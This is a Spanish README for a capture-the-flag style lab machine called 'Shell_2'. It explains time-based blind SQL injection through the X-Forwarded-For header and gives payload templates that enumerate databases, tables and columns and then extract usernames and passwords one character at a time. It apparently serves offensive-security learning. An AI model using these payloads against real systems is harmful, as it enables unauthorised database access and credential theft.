 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

Algunas consideraciones
> El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
> 
> Uso de encabezado `X-Forwarded-For`
> 
> Cada script tiene una descripción de procedimiento
> 
## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa en la cabecera `X-Forwarded-For` con `hack' or sleep(2) #`, además de que podemos consultar la versión de la base de datos con `test' or if(substring(@@version,1,1)='5',sleep(1),0) #`, buscamos con script1.sh hacer que el servidor SQL duerma 1 seg. que en el caso de la inyección, equivale a sleep(0.043), sólo si el número total de bases de datos es igual a un número que estamos probando. Encontramos que el número de bases de datos son 2 y la sentencia del script fué:
```mysql
1' or if((SELECT COUNT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA) = 'num', sleep(0.043), 0) #
```
Sabiendo el número de bases de datos, nos enfocamos a descubrir sus nombres con script2.sh con un script que hace que el servidor SQL duerma 1 seg. que en el caso de la inyección, equivale a sleep(0.043), sólo si el nombre de la base de datos contiene la letra en la posición indicada. Nuestro payload que nos hizo verificar la existencia de `information_schema` y de `photoblog` fué basado en la siguiente sentencia:
```mysql
1' or if((SELECT SUBSTRING(SCHEMA_NAME,'posición',1) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT $((db_index-1)),1) = 'letra', sleep(0.043), 0) #
```
Continuar con el reconocimiento imperó saber el número de tablas en este caso de `photoblog`, creamos un script que nos dió un resultado de 4 tablas con un payload como el siguiente:
```mysql
1' OR IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='photoblog' AND table_name IS NOT NULL) > 'numero de tabla', SLEEP(0.043), 0) #
```
Descubrir el nobre de las tablas fué muy parecido a los trabajos anteriores, dentro de las 4 tablas encontramos `users` con un pauload como este:
```mysql
1' OR IF((SELECT SUBSTRING(table_name,'posición',1) FROM information_schema.tables WHERE table_schema='users' LIMIT 'numero de tabla users',1)='letra', SLEEP(0.043), 0) #
```
El siguiente script es usado para enumerar las tablas, sabiendo ya que son 4 y que el nombre es users:
```mysql
1' OR IF((SELECT SUBSTRING(column_name,'posición',1) FROM information_schema.columns WHERE table_name='users' AND table_schema='photoblog' LIMIT 'num_col',1)='letra', SLEEP(0.043), 0) #
```
Por último extraímos los valores de las columnas id, login y password en la tabla users de la base de datos photoblog.
```mysql
1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado del repositorio que pueda causar impactos negativos. El propósito es y sólo es, con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
